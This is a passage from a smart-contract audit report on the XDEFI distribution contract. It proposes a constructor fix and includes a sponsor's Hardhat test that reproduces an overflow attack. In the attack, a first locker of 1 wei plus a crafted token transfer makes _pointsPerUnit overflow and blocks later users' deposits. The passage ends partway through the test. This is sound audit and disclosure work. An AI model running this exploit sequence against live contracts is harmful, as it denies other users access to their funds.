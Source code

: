 The same solution should work here, i.e., on constructor set an initial amount (like 1e8) for `totalUnits`

<https://github.com/XDeFi-tech/xdefi-distribution/blob/3856a42df295183b40c6eee89307308f196612fe/contracts/XDEFIDistribution.sol#L39-L44>

```solidity
constructor (address XDEFI_, string memory baseURI_, uint256 zeroDurationPointBase_) ERC721("Locked XDEFI", "lXDEFI") {
    require((XDEFI = XDEFI_) != address(0), "INVALID_TOKEN");
    owner = msg.sender;
    baseURI = baseURI_;
    _zeroDurationPointBase = zeroDurationPointBase_;

    totalUnits = 100_000_000;
}
```

**[deluca-mike (XDEFI) confirmed](https://github.com/code-423n4/2022-01-xdefi-findings/issues/156#issuecomment-1008255566):**
> This is a great catch! I just tested it:
> 
> ```js
> const { expect } = require("chai");
> const { ethers } = require("hardhat");
> 
> const totalSupply = '240000000000000000000000000';
> 
> const toWei = (value, add = 0, sub = 0) => (BigInt(value) * 1_000_000_000_000_000_000n + BigInt(add) - BigInt(sub)).toString();
> 
> describe("XDEFIDistribution", () => {
>     it("Can overflow _pointsPerUnit", async () => {
>         const [god, alice, bob] = await ethers.getSigners();
> 
>         const XDEFI = await (await (await ethers.getContractFactory("XDEFI")).deploy("XDEFI", "XDEFI", totalSupply)).deployed();
>         const XDEFIDistribution = await (await (await ethers.getContractFactory("XDEFIDistribution")).deploy(XDEFI.address, "https://www.xdefi.io/nfts/", 0)).deployed();
> 
>         // Give each account 2,000,000 XDEFI
>         await (await XDEFI.transfer(alice.address, toWei(2_000_000))).wait();
>         await (await XDEFI.transfer(bob.address, toWei(2_000_000))).wait();
> 
>         // bonusMultiplierOf[30 days] = 100
>         await (await XDEFIDistribution.setLockPeriods([2592000], [100])).wait();
> 
>         // 1. Alice lock() 1 wei of XDEFI for 30 days as the first user of the contract. Got 1 units, and totalUnits now is 1;
>         await (await XDEFI.connect(alice).approve(XDEFIDistribution.address, 1)).wait();
>         await (await XDEFIDistribution.connect(alice).lock(1, 2592000, alice.address)).wait();
>         expect(await XDEFIDistribution.balanceOf(alice.address)).to.equal('1');
>         const nft1 = (await XDEFIDistribution.tokenOfOwnerByIndex(alice.address, 0)).toString();
>         expect((await XDEFIDistribution.positionOf(nft1)).units).to.equal(1);
> 
>         // 2. Alice sends 170141183460469 wei of XDEFI to the contract and calls updateDistribution()
>         await (await XDEFI.connect(alice).transfer(XDEFIDistribution.address, 170141183460469)).wait();
>         await (await XDEFIDistribution.connect(alice).updateDistribution()).wait();
> 
>         // 3. Bob tries to lock() 1,100,000 * 1e18 of XDEFI for 30 days, the tx will fail, as _pointsPerUnit * units overflows
>         await (await XDEFI.connect(bob).approve(XDEFIDistribution.address, toWei(1_100_000))).wait();